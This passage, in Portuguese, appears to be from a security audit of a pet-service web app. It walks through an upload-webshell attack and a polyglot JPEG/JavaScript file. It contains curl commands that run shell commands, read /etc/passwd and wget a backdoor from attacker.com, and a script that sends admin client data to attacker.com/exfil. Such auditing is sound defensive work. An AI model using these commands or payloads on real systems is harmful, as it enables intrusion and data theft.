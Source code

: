 3. **Resultado:**
   ```json
   {
     "success": true,
     "imageUrl": "https://storage.supabase.co/pets/webshell-123.jpg"
   }
   ```

4. **Exploração da Webshell:**
   ```bash
   # Se Supabase executar PHP (improvável, mas ilustrativo):
   curl "https://storage.supabase.co/pets/webshell-123.jpg?cmd=whoami"
   # Retorna: www-data
   
   # Comandos maliciosos:
   curl "https://.../webshell-123.jpg?cmd=cat /etc/passwd"
   curl "https://.../webshell-123.jpg?cmd=ls -la /var/www"
   curl "https://.../webshell-123.jpg?cmd=wget http://attacker.com/backdoor.sh"
   ```

5. **Escalação - Polyglot File (JPEG + JS):**
   ```javascript
   // Criar arquivo que é JPEG válido E JavaScript válido
   /*\xFF\xD8\xFF\xE0*/
   const xhr = new XMLHttpRequest();
   xhr.open('GET', '/admin/api/clients');
   xhr.onload = () => {
     fetch('https://attacker.com/exfil', {
       method: 'POST',
       body: xhr.responseText
     });
   };
   xhr.send();
   /*\xFF\xD9*/
   ```

**Impacto:**
- 🎯 Execução remota de código (RCE)
- 🎯 Acesso ao servidor e banco de dados
- 🎯 Roubo de secrets (.env, DATABASE_URL)
- 🎯 Instalação de backdoors persistentes
- 🎯 Mineração de criptomoedas no servidor

---

## 🔥 ATAQUES DE ALTA PRIORIDADE

### 💸 ATAQUE 5: Manipulação de Valores de Pagamento

**Vetor de Ataque:** Race condition em validação de valores  
**Arquivo:** `server/routes.ts` (checkout process)  
**Severidade:** ALTA 🟠

#### Como o Hacker Exploraria:

